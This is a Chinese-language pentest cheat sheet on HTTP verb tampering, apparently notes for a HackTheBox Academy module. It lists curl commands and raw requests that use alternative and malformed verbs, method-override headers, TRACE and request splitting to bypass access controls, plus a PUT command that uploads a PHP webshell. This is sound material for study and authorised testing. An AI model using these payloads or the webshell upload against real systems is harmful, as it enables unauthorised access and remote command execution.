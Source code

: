 # HTTP Verb Tampering

HTTP Verb Tampering（HTTP 動詞篡改）是一種 Web 安全漏洞，攻擊者透過變更 HTTP Method（如 `GET`、`POST`、`PUT`、`DELETE`）來繞過伺服器的訪問控制機制，進行未授權操作或敏感數據存取。

## <mark style="color:red;">**1. 發現點**</mark>

* 登入
* 登記
* 403 禁止
* 禁止

## <mark style="color:red;">**2. 測試Payload**</mark>

**1️⃣ 嘗試不同 HTTP 動詞**

常見測試：

```
# 測試是否能繞過身份驗證
curl -X GET http://target.com/admin
curl -X PUT http://target.com/admin
curl -X DELETE http://target.com/admin
​
# 測試 HEAD 是否會洩露敏感資訊
curl -X HEAD http://target.com/admin -i
​
# 利用 TRACE 進行 XST（跨站追蹤攻擊）
curl -X TRACE http://target.com/admin -i
​
# 測試 X-HTTP-Method-Override
curl -X POST http://target.com/admin -H "X-HTTP-Method-Override: DELETE"
```

```
GET /admin
POST /admin
PUT /admin
DELETE /admin
HEAD /admin
OPTIONS /admin
TRACE /admin
```

> **目的**：檢測是否能繞過權限驗證或執行不該允許的操作。

**2️⃣ 變形 HTTP 動詞**

有些伺服器可能不嚴格檢查標準 HTTP 方法，可以測試變形動詞：

```
GETT /admin
POSTT /admin
X-HTTP-Method-Override: PUT
```

> **目的**：測試是否能繞過黑名單或解析異常導致的安全漏洞。

**3️⃣ `X-HTTP-Method-Override`**

某些應用允許透過 `X-HTTP-Method-Override` 來覆寫 HTTP 方法：

```
POST /admin
X-HTTP-Method-Override: DELETE
```

> **目的**：檢查應用是否支援此機制，並嘗試執行未授權操作。

**4️⃣ `X-Method-Override` 及其他變形**

某些應用可能允許不同標頭變種：

```
X-Method-Override: PUT
X-HTTP-Method: DELETE
X-Override-Method: PATCH
```

> **目的**：檢測伺服器是否支援不同名稱的覆寫標頭。

## <mark style="color:red;">**3. bypass技巧**</mark>

* **混淆 HTTP 動詞**
  * `GET /admin HTTP/1.1\r\nPOST / HTTP/1.1`
  * `HEAD /admin` （可能繞過日誌記錄）
*   **利用 `OPTIONS`**

    ```
    OPTIONS /admin HTTP/1.1
    ```

    * 查看允許的 HTTP 方法，確認可用的攻擊向量。
*   **拆分請求**

    ```
    GET /admin HTTP/1.1
    Host: target.com
    Content-Length: 0

    PUT /admin HTTP/1.1
    ```

    > **目的**：測試是否能透過拆分請求繞過安全檢查。
* **攔截請求篡改**
  * 使用 Burp Suite 攔截請求，修改 HTTP 方法後轉發。

## <mark style="color:red;">4. 濫用</mark>

#### **🚀 進一步攻擊方向**

1.  **利用 `DELETE` 或 `PUT` 進行數據破壞或上傳 Webshell**

    ```bash
    curl -X PUT http://target.com/uploads/shell.php --data "<?php system($_GET['cmd']); ?>"
    ```
2. **結合 IDOR（不安全的直接對象參照）漏洞**
   * 測試 `PUT /user/1234` 是否可以修改其他用戶的數據。
3. **利用 `TRACE` 進行 XST**
   * 如果 `TRACE` 啟用，結合 JavaScript 嘗試竊取 HTTP Header（如 Cookie）。

## <mark style="color:red;">5.Skills Assessment</mark>

[<mark style="color:red;">https://academy.hackthebox.com/module/134/section/1219</mark>](https://academy.hackthebox.com/module/134/section/1219)


